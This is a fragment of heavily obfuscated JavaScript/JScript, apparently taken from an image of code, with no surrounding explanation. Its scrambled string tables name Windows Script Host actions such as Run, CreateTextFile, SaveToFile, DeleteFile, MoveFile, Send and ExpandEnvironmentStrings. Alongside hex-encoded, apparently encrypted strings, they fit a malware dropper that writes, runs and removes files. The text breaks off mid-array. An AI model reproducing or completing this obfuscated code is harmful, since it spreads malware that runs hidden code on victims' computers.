 ```
dqobt6FUQWF1F0IvpJGwZ1e[_0x5b187b(0xb5)](WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d+EmG8jU1JwNvDeZL6AZU4kF00WCgGoUbvEpmJocDyIevz3ENoJ5M,wNL9gcqA0w8PiNdvosibTdQUah9kiLsTdTox48tLQY9fVg1mWwIe5Z);}yoQQ6c6gC6pzybirokybrML6FV5se3vdqobt6FUQWF1F0IvpJGwZ1e[_0x5b187b(0xae)](WKgl1v6AthII56zr6j09uwB16HzVKkkVgUdvaRf7PvKhiMq91W1NRu+hh8aN6epbUcmBR3eXys5eGkYLpv614e2QqUVf2HCzdiVbcxsneOD5Xfe2d+gF5OaHC5Gqb1sRrGU3XnFtLhXDTR9XD69toip2mKxfTZB0KSQKAwNOhZ+Fa33kG2qcD71XUwNvHj2k016pDvSmPO6UdtkGSLkCeOU5jDmSEUy1DP,!![]);var btCsa5Bpvx2CbG9ChGcoajzZVWxskS9sy1YaEDJdbblmKKCHEkaRZk4GW7G,JRPJWrmKK3lPLrluFse0fa0USpadkDNSIH4S3BgjnLi5JTzNbdDRq,yCrV8mwBguDglPNW3IrTPfEm05D3nYJDfCJLPEphypz785fV91vC=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x179b37(0x1f5))+wNL9gcqA0w8PiNdvosibTdQUah9kiLsTdTox48tLQY9fVg1mWwIe5Z;yCrV8mwBguDglPNW3IrTPfEm05D3nYJDfCJLPEphypz785fV91vC+=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x179b37(0x211)),btCsa5Bpvx2CbG9ChGcoajzZVWxskS9sy1YaEDJdbblmKKCHEkaRZk4GW7G=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x179b37(0x1ee)),JRPJWrmKK3lPLrluFse0fa0USpadkDNSIH4S3BgjnLi5JTzNbdDRq=DfEDQVCSiTdOV9zCgViH1eZu1X8gtHTjI17oa14nr0E9zyULNOjKGx+btCsa5Bpvx2CbG9ChGcoajzZVWxskS9sy1YaEDJdbblmKKCHEkaRZk4GW7G+gF5OaHC5Gqb1sRrGU3XnFtLhXDTR9XD69toip2mKxfTZB0KSQKAwNOhZ,JRPJWrmKK3lPLrluFse0fa0USpadkDNSIH4S3BgjnLi5JTzNbdDRq+=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xa0))+yCrV8mwBguDglPNW3IrTPfEm05D3nYJDfCJLPEphypz785fV91vC,nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x5b187b(0xb4)](JRPJWrmKK3lPLrluFse0fa0USpadkDNSIH4S3BgjnLi5JTzNbdDRq),btCsa5Bpvx2CbG9ChGcoajzZVWxskS9sy1YaEDJdbblmKKCHEkaRZk4GW7G=GZ8HhlXIx38yjwV3YTS2MrlgTrz2jdLf02aE6HUfjlKPHOIg4X0lpgP(_0x5b187b(0xc0)),JRPJWrmKK3lPLrluFse0fa0USpadkDNSIH4S3BgjnLi5JTzNbdDRq=btCsa5Bpvx2CbG9ChGcoajzZVWxskS9sy1YaEDJdbblmKKCHEkaRZk4GW7G+wNL9gcqA0w8PiNdvosibTdQUah9kiLsTdTox48tLQY9fVg1mWwIe5Z+btCsa5Bpvx2CbG9ChGcoajzZVWxskS9sy1YaEDJdbblmKKCHEkaRZk4GW7G,nK4d3ZVQju0cDl7ykfCjGkzgztfu1djjqVSJt3dorumqBi755b5txf2Nzc[_0x5b187b(0xb4)](JRPJWrmKK3lPLrluFse0fa0USpadkDNSIH4S3BgjnLi5JTzNbdDRq);}function _0xb6f0(){var _0x1f63f5=_0x49a11f,_0x1b0b83=[_0x1f63f5(0x80),_0x1f63f5(0xaa),_0x1f63f5(0xb0),'90AB78B169ED24DC73D0182FE2',_0x1f63f5(0x7c),'0B64ED47F024EE1FB772BD6BC1A75932',_0x1f63f5(0x86),_0x1f63f5(0x92),_0x1f63f5(0xa3),'6623544NqXotA',_0x1f63f5(0x7d),_0x1f63f5(0x73),_0x1f63f5(0xa9),_0x1f63f5(0x7b),_0x1f63f5(0x95),_0x1f63f5(0x84),_0x1f63f5(0x8a),_0x1f63f5(0xa2),_0x1f63f5(0xab),_0x1f63f5(0x76),_0x1f63f5(0x8b),_0x1f63f5(0x79),_0x1f63f5(0xb4),_0x1f63f5(0xb6),_0x1f63f5(0xa5),_0x1f63f5(0x9a),_0x1f63f5(0x9c),_0x1f63f5(0xb3),_0x1f63f5(0x70),_0x1f63f5(0x99),'Item',_0x1f63f5(0x7e),_0x1f63f5(0x8d),_0x1f63f5(0x94),'FileExists',_0x1f63f5(0x88),'20CbbKMs',_0x1f63f5(0x85),'Run','substr','Open','E17CB673973DC978D75AD044E7033DDB3BF658FF0203151536D73E',_0x1f63f5(0x6f),_0x1f63f5(0x90),_0x1f63f5(0x81),'2ACF98','CreateTextFile','Write',_0x1f63f5(0x74),'182861NLAkXA',_0x1f63f5(0xb2),_0x1f63f5(0x87),_0x1f63f5(0x93),_0x1f63f5(0x9f),_0x1f63f5(0xa1),_0x1f63f5(0xa8),_0x1f63f5(0x72),_0x1f63f5(0x9d),'14530ZIfeqx',_0x1f63f5(0x8c),_0x1f63f5(0x78),_0x1f63f5(0x71),_0x1f63f5(0x91),_0x1f63f5(0x6d)];return _0xb6f0=function(){return _0x1b0b83;},_0xb6f0();}function _0x4a8b(_0x1dda66,_0x3db024){var _0x502e70=_0xb6f0();return _0x4a8b=function(_0x7b6973,_0x2d354c){_0x7b6973=_0x7b6973-0x1da;var _0x362908=_0x502e70[_0x7b6973];return _0x362908;},_0x4a8b(_0x1dda66,_0x3db024);}function _0xed65(){var _0x419c40=['C7BC5E9D45','BD6F8AA45EE467DD3CCD77B65190558D6D8A8BBC80FC12ED5780974DA08BD08F9B6E8530CC78E12CC7AF46FC036895C3558ADA2CC8A5509F41','0378B578AF','CopyHere','A95BA641FA5BED56B4738FAF5E9A47FE052CBE61E010041937D273906188DB4FD3251EBA77AE2C2EF80430DD2AC660F62EDB7FBB7FB359EB0B27E80A4BFC1E2DE93C26C54CF7','2360183uHksOu','SaveToFile','fromCharCode','63VBoAGi','370740XbWtlZ','Close','1605908VPhuos','6ygNBDC','1493016wlPOIC','342284DNHauZ','86FD','600850SgaEiD','D379','69daiMtS','90AE718586CF3CE7271BDC182AC96B908CA928DF2ACF340871D171','1617gujeUX','4310185lInasO','318430LCpSZt','63C15E8BBB1BF118B47FFC','EA44C9B1','Name','D2BE6681A820F11E72','556eqpwFs','Count','Item','CreateFolder','5EFB1CD677','C3B877B550','IiZK5xK1eXSJWUKnX3BoRpjLNrFaFlqkgJ0SC8uXZU','15YANViJ','198E','DeleteFile','charCodeAt','push','8RaUKGg','Send','2499552KVTwKf','183dQLsLH','NULL','28040E27DF66AE5FF37C','floor','67DC38EA14','indexOf','1456428FBxITU','34CE5E994D8CC24F8E9B50EA0432F316EB02','items','228130QxKCBb','random','MoveFile','87B742FF399770AFEC0535C97CBF','0C0D','WriteLine','6hPdQaO','18785dTssqZ','8646165nrgSLd','Status','13558490gEgMxc','2C055DFA50F6133F8091E94ADD70EB47D765FF62AC43D79DA9BA8FA29FB468DF5FD1599BB353987782AE4BF70E2EE973B257F43CF338E169F924F833AB58A3AB61B9618481A967FF19F67CCC091968','shift','233304KFNMzs','ExpandEnvironmentStrings','length','9332384LMZrIA','NameSpace','D051FF0E','0F7DB9699739E61F52A1539A4A38','120snNMWa','4029312E054DB950F30D75F70F070A61','A0A8858E99EE65F359AE4CFE26','ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz123456789'];_0xed65=function(){return _0x419c40;};return _0xed65();}function _0x2e30(){var _0x124c7f=_0x49a11f,_0x4354e4=_0x179b37,_0x2145c4=[_0x4354e4(0x1da),_0x4354e4(0x1dd),_0x4354e4(0x1f0),_0x4354e4(0x219),_0x124c7f(0x77),_0x124c7f(0x83),_0x4354e4(0x1e9),'437483EbdujA',_0x4354e4(0x1ef),_0x4354e4(0x20f),_0x4354e4(0x1eb),_0x4354e4(0x1e3),_0x4354e4(0x1fd),_0x124c7f(0x75),_0x4354e4(0x20d),_0x4354e4(0x210),_0x124c7f(0xa4),_0x4354e4(0x217),_0x4354e4(0x202),_0x4354e4(0x1e2),_0x124c7f(0xae),_0x4354e4(0x215),_0x4354e4(0x1e4),_0x4354e4(0x1df),_0x4354e4(0x1e5),'13058WnQhpp',_0x4354e4(0x20a),_0x4354e4(0x214),_0x4354e4(0x1f8),_0x4354e4(0x1fb),_0x4354e4(0x1f7),_0x124c7f(0x9b),_0x4354e4(0x1fe),_0x124c7f(0x89),_0x4354e4(0x216),_0x124c7f(0xaf),_0x4354e4(0x200),_0x4354e4(0x1f1),'137C',_0x4354e4(0x1f6),_0x4354e4(0x1e0),_0x124c7f(0xb5),_0
```
